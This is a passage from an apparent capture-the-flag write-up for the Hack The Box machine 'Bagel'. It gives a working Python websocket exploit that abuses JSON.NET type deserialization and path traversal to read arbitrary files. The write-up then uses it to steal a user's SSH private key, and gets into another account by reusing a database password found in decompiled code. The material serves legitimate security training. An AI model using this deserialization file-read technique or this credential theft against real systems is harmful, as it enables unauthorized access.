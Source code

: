 ### Exploit

```python
import sys
import json
import websocket

ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/") # connect to order app
order = {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": f"../../../../../..{sys.argv[1]}"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(json.loads(result)["RemoveOrder"]["ReadFile"])
```

## SSH-Access: Phil

Using my exploit I was able to get the private key of phil and access the server.  

```bash
python3 des.py /home/phil/.ssh/id_rsa >> id_rsa
chmod 600 id_rsa
ssh -i id_rsa phil@bagel.htb
```

## Password Reuse: Developer

That's an easy one. During enumeration of the application I was able to spot credentials for a database.  
Using that password I was able to become the user Developer.  

```csharp
[Obsolete("The production team has to decide where the database server will be hosted. This method is not fully implemented.")]
public void DB_connection()
{
        //IL_0008: Unknown result type (might be due to invalid IL or missing references)
        //IL_000e: Expected O, but got Unknown
        string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=CENSORED";
        SqlConnection val = new SqlConnection(text);
        string text2 = "INSERT INTO orders (Name,Address,Count,Type) VALUES ('Eliot','Street',4,'Baggel')";
}
```

# Escalation

## Local Enumeration
